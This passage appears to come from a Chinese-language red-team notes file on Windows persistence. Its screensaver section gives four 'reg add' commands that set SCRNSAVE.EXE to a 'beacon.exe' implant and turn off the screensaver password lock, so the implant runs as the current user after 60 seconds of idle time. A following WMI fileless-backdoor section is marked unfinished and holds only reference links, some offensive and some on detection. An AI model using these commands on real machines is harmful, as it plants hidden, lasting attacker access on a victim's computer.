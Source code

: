 # 0x9.屏幕保护程序

>   利用前提:对方开启了屏幕保护
>
>   屏幕保护程序，当初的设计是为了防止长期屏幕的显示，预防老化与缩短屏幕显示器老化的一种保护程序。

注册表位置:

```
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
```

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\Users\hunter\Desktop\beacon.exe /f
reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f
```

如果从未设置过屏保程序的话，除“ScreenSaveActive”默认值为1，其他键都是不存在的，而屏保程序的正常运行必须保证这几个键都有数据才可以，因此必须把4个键都重写一遍。另外，经测试屏保程序最短触发时间为60秒，即使改成小于60的数值，依然还是60秒后执行程序。
当然，从注册表路径也可以看出这种方式只能获得当前用户权限的shell，优点是不需要提权即可维持。



# 0xA WMI构造无文件后门（待完成）

WMI(Windows Management Instrumentation，即Windows管理规范)，大多数基于Windows的软件依赖于此服务。

>   [WMI的攻击，防御与取证分析技术之攻击篇](https://wooyun.js.org/drops/WMI%20%E7%9A%84%E6%94%BB%E5%87%BB%EF%BC%8C%E9%98%B2%E5%BE%A1%E4%B8%8E%E5%8F%96%E8%AF%81%E5%88%86%E6%9E%90%E6%8A%80%E6%9C%AF%E4%B9%8B%E6%94%BB%E5%87%BB%E7%AF%87.html)
>
>   [wmi与vbs](https://xz.aliyun.com/t/2080)
>
>   [利用WMI构建一个持久化的异步的无文件后门](https://m0nst3r.me/pentest/利用WMI构建一个持久化的异步的无文件后门.html)
>
>   [WMI利用专题](https://blog.51cto.com/antivirusjo/2092545)
>
>   [Powershell攻击指南黑客后渗透之道系列——进阶利用](https://www.anquanke.com/post/id/88851)
>
>   [A WMI Based Agentless Post-Exploitation RAT Developed in PowerShell](https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html)
>
>   [WMI Backdoor](https://www.tuicool.com/articles/zmUVbyJ)
>
>   [Appendix L: Events to Monitor](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/appendix-l--events-to-monitor)
>
>   [利用WMI打造完美“三无”后门](http://demon.tw/copy-paste/vbs-wmi-trojan-3.html)
>
>   [如何检测并移除WMI持久化后门？](https://www.tuicool.com/articles/IzieuyR)
>
>   [解析APT29的无文件WMI和PowerShell后门](https://www.anquanke.com/post/id/85851)
>
>   [无文件攻击的兴起与应对之道](https://www.aqniu.com/learn/31053.html)
